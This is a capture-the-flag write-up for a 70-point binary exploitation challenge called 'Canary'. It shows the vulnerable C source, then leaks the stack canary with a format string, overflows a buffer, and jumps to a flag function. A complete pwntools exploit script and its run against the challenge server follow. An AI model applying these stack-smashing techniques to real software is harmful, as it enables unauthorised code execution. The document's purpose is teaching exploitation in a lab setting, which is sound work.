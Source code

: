 # Canary
Binary Explotation, 70 points

## Description
> Can you call the flag function in this [program](https://files.actf.co/9614bc019231c2b6301e0cb5405423add02b5d1f041da0d3d35986ef34f50b23/canary) ([source](https://files.actf.co/27f15f75b231a3179ed0e19f79d9ab4cbd058d5460d7de4bf65f1ff00a228315/canary.c))?

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

void flag() {
	system("/bin/cat flag.txt");
}

void wake() {
	puts("Cock-a-doodle-doo! Cock-a-doodle-doo!\n");
	puts("        .-\"-.");
	puts("       / 4 4 \\");
	puts("       \\_ v _/");
	puts("       //   \\\\");
	puts("      ((     ))");
	puts("=======\"\"===\"\"=======");
	puts("         |||");
	puts("         '|'\n");
	puts("Ahhhh, what a beautiful morning on the farm!");
	puts("And my canary woke me up at 5 AM on the dot!\n");
	puts("       _.-^-._    .--.");
	puts("    .-'   _   '-. |__|");
	puts("   /     |_|     \\|  |");
	puts("  /               \\  |");
	puts(" /|     _____     |\\ |");
	puts("  |    |==|==|    |  |");
	puts("  |    |--|--|    |  |");
	puts("  |    |==|==|    |  |");
	puts("^^^^^^^^^^^^^^^^^^^^^^^^\n");
}

void greet() {
	printf("Hi! What's your name? ");
	char name[20];
	gets(name);
	printf("Nice to meet you, ");
	printf(strcat(name, "!\n"));
	printf("Anything else you want to tell me? ");
	char info[50];
	gets(info);
}

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	wake();
	greet();
}

```

Hints:

* That printf call looks dangerous too...

## Solution

The vulnerability is a *buffer overflow* and *format string* in the `greet` function

```c
	gets(name); // --> buffer overflow
	printf("Nice to meet you, ");
	printf(strcat(name, "!\n")); // --> format string
	printf("Anything else you want to tell me? ");
	char info[50];
	gets(info); // --> buffer overflow
```

We have two opportunity's for bof(buffer overflow) but if we will cause a bof on the first time we will overwrite the [canary](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary/) and get a stack smashing:

```console
*** stack smashing detected ***: <unknown> terminated
```

so we wont use the first bof, we will use the buffer in order to trigger the format string and leak the canary, after that we can overwrite the canary with itself and jump to the `flag` function.

first we need to get the offset of our buffer:

```console
Hi! What's your name? AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
Nice to meet you, AAAAAAAA 0x7ffc221a0fc0 0x38 0xffffffffffffffc6 0x12 0x7f35484b84c0 0x4141414141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa21 0x7ffc221a36c0 0x4006a0 0x7ffc221a37c0!
```

I used `AAAAAAAA` because I know the hex for an `A` is 0x41 and it will be easy to track.
If we count the number of values leaked until our `0x4141414141414141` we will get that its 6, nice.

Next we want the value of the canary, We know that the canary is two places after the `saved rip`, so we'll debug the program using gdb and put a breakpoint on the call to `printf`

Pay attention that we want the second call to `printf` which is at `greet+69`
To recognize the buffer we'll put a `AAAAAAAA` in the input
We'll print the stack layout:

```console
gef➤  x/100lx $rsp
0x7fffffffdea0:	0x41414141	0x41414141	0xf7a71400	0x00007fff
0x7fffffffdeb0:	0x00000019	0x00000000	0xf7dd0760	0x00007fff
0x7fffffffdec0:	0x00400c17	0x00000000	0xf7a64b62	0x00007fff
0x7fffffffded0:	0xf7dd0760	0x00007fff	0x00000000	0x00000000
0x7fffffffdee0:	0xffffdf00	0x00007fff	0x004006a0	0x00000000
0x7fffffffdef0:	0xffffe000	0x00007fff	0x30261100	0x799589ad
0x7fffffffdf00:	0xffffdf20	0x00007fff	0x004009c9	0x00000000
0x7fffffffdf10:	0xffffe000	0x00007fff	0x00000000	0x000003e8
0x7fffffffdf20:	0x004009d0	0x00000000	0xf7a05b97	0x00007fff
0x7fffffffdf30:	0x00000001	0x00000000	0xffffe008	0x00007fff
0x7fffffffdf40:	0x00008000	0x00000001	0x00400957	0x00000000
```

We can check the `saved rip` using `info frame`:

```console
gef➤  i frame
Stack level 0, frame at 0x7fffffffdf10:
 rip = 0x4008d6 in greet; saved rip = 0x4009c9
 called by frame at 0x7fffffffdf30
 Arglist at 0x7fffffffdf00, args: 
 Locals at 0x7fffffffdf00, Previous frame's sp is 0x7fffffffdf10
 Saved registers:
  rbp at 0x7fffffffdf00, rip at 0x7fffffffdf08
```
So we check for two places after our saved rip `0x4009c9`, the saved rip is at offset 19.
6 (offset of our buffer) + 13 (values on the stack) = 19

The canry is 2 places after the `saved rip` so offset 17: `0x30261100	0x799589ad`.
We count every 8 bytes because out architecture is amd64

Now we can check the offset of the bof for the second `gets` call and overwrite the canary and the saved rip.
using `cyclic` of `pwntools` we get that the offset is 72.

So our payload will be:

```python
payload = 'A' * (overflow_offset - 16) + p64(leaked_canary) + fake_rbp + p64(ret_gadget) + p64(flag_address)
```

I had a problem with the `movaps` instruction, so in order the allign my payload I added a `ret gadget`.

```python
from pwn import *
import sys

context.clear(arch='amd64', os='linux')

argv = sys.argv
binary_path = './canary'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('shell.actf.co', 20701)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main
		''')

e = ELF(binary_path)

# ------------- plan -----------
# leak canary using format string
# buffer overflow using canary!
# jump to flag function

sh.sendlineafter("Hi! What's your name? ", '%17$p')
sh.recvuntil('Nice to meet you, ')
leaked_canary = int(sh.recvline()[:-2], 0)
log.info('canary: {}'.format(hex(leaked_canary)))

overflow_offset = 72
flag_address = e.sym['flag']
fake_rbp = 8 * 'B'
ret_gadget = 0x40060e

payload = 'A' * (overflow_offset - 16) + p64(leaked_canary) + fake_rbp + p64(ret_gadget) + p64(flag_address)

sh.sendlineafter('Anything else you want to tell me? ', payload)

print sh.recvall()
```

Output:
```console
yuvaly0@yuvalyo-blup:~/Desktop/CTFs/Canary_DONE$ python exploit.py remote
[+] Opening connection to shell.actf.co on port 20701: Done
[*] '/home/yuvaly0/Desktop/CTFs/Canary_DONE/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] canary: 0x4c0cc112c9921c00
[+] Receiving all data: Done (51B)
[*] Closed connection to shell.actf.co port 20701
actf{youre_a_canary_killer_>:(}
```
